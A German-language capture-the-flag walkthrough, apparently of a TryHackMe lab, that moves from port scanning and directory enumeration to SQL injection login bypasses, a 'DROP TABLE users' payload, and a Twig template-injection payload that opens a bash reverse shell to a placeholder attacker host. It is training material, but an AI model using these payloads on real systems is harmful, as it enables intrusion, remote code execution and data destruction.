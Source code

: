 # Thema
Use your injection skills to take control of a web app.

# Vorgehen
## Scannen & Enumeration
### Nmap kontrolle der Offenen Ports via 
```
nmap -sV 10.10.149.236
```
Resultat: 
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
### Gobuster
```
gobuster dir -u "10.10.149.236" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.**txt**
```
Resultat: 
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.149.236
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/flags                (Status: 301) [Size: 314] [--> http://10.10.149.236/flags/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.149.236/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.149.236/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.10.149.236/vendor/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.149.236/phpmyadmin/]
/server-status        (Status: 403) [Size: 278]
Progress: 218275 / 218276 (100.00%)
===============================================================
Finished
===============================================================

```

### Anschauen der Pagesource
via 
```
view-source:http://10.10.149.236/
```
 
Feststellung Namen, Nachnamen und mailadresse "Website developed by John Tim - `dev@injectics.thm`"
Feststellung der "login-php" für User der Hauptseite
Feststellung der "adminLogin007.php" für Admins der Site

## Erhaltene Infos
1. Ist ein Webserver mit Apache httpd 2.4.41
2. Es gibt diverse Direcorys in der Website die Vorhanden und teilweise offen sind 
3. Es handelt sich um einen PHP Server 

# Weiteres Vorgehen 
- Kontrolle auf welche Directorys zugriff besteht
	- Zugriff sonst nur auf den phpmyadmin -> Login seite für PHP
- Testen der Email adresse in allen Login portalen mit SQL Injection  
```
 ' OR '1'='1
```

Resultat 
Login und admin login kein Login möglich meldung " Invalid email or password. "
phpmyadmin site "Cannot log in to the MySQL Server" "mysqli_real_connect(): (HY000/1045): Access denied for user 'dev@injectics.thm'@'localhost' (using password: YES)"

Nächster Test auf der phpmyadmin
```
Username:  ' OR '1'='1
Password: ' OR '1'='1
```

Resultat:
 mysqli_real_connect(): (HY000/1045): Access denied for user ' ' OR '1'='1'@'localhost' (using password: YES)


->  Interessante Info Username kann nicht für Injektion genutzt werden Passwort Feld allerdings schon 


# Da Ich nicht weitergekommen bin nachlesen in WriteUp

mein Fehler war in der Enumeration mit gobuster diese hätte ich erneut mit anderer Wordliste und mehreren Parametern machen müssen

```
gobuster dir -u "10.10.149.236" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,js,txt,php,db,json,log -k 2>/dev/null
```

-Resultate des Befehls: 
```


```

Mail.log enthält klare Anmeldedaten
- In `/mail.log` findest du zwei Accounts:
  ```
  superadmin@injectics.thm  | superSecurePasswd101
  dev@injectics.thm         | devPasswd123
  ```

SQLi im Login umgehen → erster Zugriff
- Das Login-Formular auf der Hauptseite filtert Schlüsselwörter wie `or`, `and`, `union`, `'` clientseitig – aber nur lowercase.
- Du umgehst das mit Payloads wie:
  ```
  username=' || 1=1 –-  (oder mit sleep für Zeit-basiert)
  ```
- Damit loggst du dich als „dev“-User ein.

 Zerstörung der `users`-Tabelle über Admin-SQLi
- Auf der Leaderboard-Seite (`edit_leaderboard.php`) kannst du Metadaten (z. B. gold, country) verändern – hier findet sich eine serverseitige SQLi-Lücke.
- Über einen Payload wie:
  ```
  gold=..., country=...; DROP TABLE users;-- -
  ```
  löschst du die gesamte `users`-Tabelle.

Automatische Wiedereinsetzung der Tabelle
- Der Dienst „injecticsService“ erkennt den Ausfall und stellt die Tabelle automatisch wieder her.
- Nach kurzer Wartezeit (1–2 Minuten) kannst du dich mit den Credentials aus `mail.log` als **superadmin** oder **admin** anmelden und bekommst damit **Flag 1**.

 SSTI im Admin-Bereich für RCE → Flag 2
- Im Admin-Dashboard gibt es ein Profil-Update, wo der Name angezeigt wird – und **SSTI** möglich ist (getestet mit `{{7*7}} → 49`).
- Über einen Twig-Trick (`sort('passthru')`) kannst du shell-Befehle ausführen, z. B.:
  ```jinja
  {{ ['bash -c "exec bash -i >& /dev/tcp/ATTACKER/PORT 0>&1"', ""] | sort('passthru') }}
  ```
  → Reverse Shell
- Alternativ kannst du die SSTI nutzen, um direkt Dateien auszulesen:
  ```jinja
  {{ ['cat /var/www/html/flags/XXXX.txt', ""] | sort('passthru') }}
  ```
  → Damit liest du **Flag 2** aus.

Flags & Endergebnis
- **Flag 1** (Admin-Panel): `THM{INJECTICS_ADMIN_PANEL_007}`
- **Flag 2** (Flag-Verzeichnis): 
 Fazit
1. `/mail.log` → echte Admin-Creds  
2. SQLi → Login als dev  
3. SQLi im Leaderboard → `DROP TABLE users`  
4. Automatisch wiederhergestelltes Admin-Konto → Flag 1  
5. SSTI im Profil → RCE oder Datei-Lesen → Flag 2
